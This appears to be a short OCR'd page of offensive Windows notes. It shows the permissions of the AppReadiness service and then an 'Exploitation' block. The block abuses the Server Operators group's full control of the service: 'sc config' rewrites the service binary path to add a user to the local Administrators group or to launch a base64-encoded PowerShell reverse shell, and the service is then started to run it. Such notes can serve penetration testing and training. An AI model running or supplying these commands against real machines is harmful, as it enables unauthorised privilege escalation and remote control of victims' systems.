````

SERVICE_NAME: AppReadiness
DISPLAY_NAME: App Readiness
        ACCOUNT: LocalSystem
        SECURITY:
        [ALLOW] NT AUTHORITY\SYSTEM
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                Pause/Resume
                Start
                Stop
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Administrators
                All
        [ALLOW] NT AUTHORITY\INTERACTIVE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] NT AUTHORITY\SERVICE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Server Operators
                All


# Checking Local Admin Group Membership
> net localgroup Administrators
````
**Exploitation**
````
# Modifying the Service Binary Path
> sc config AppReadiness binPath= "cmd /c net localgroup Administrators <user> /add"
> sc config AppReadiness binPath= "<command>"
> sc config AppReadiness binPath= "cmd /c powershell -e revshell_base64"

# Starting the Service
> sc start AppReadiness

# Confirming Local Admin Group Membership
> net localgroup Administrators
````

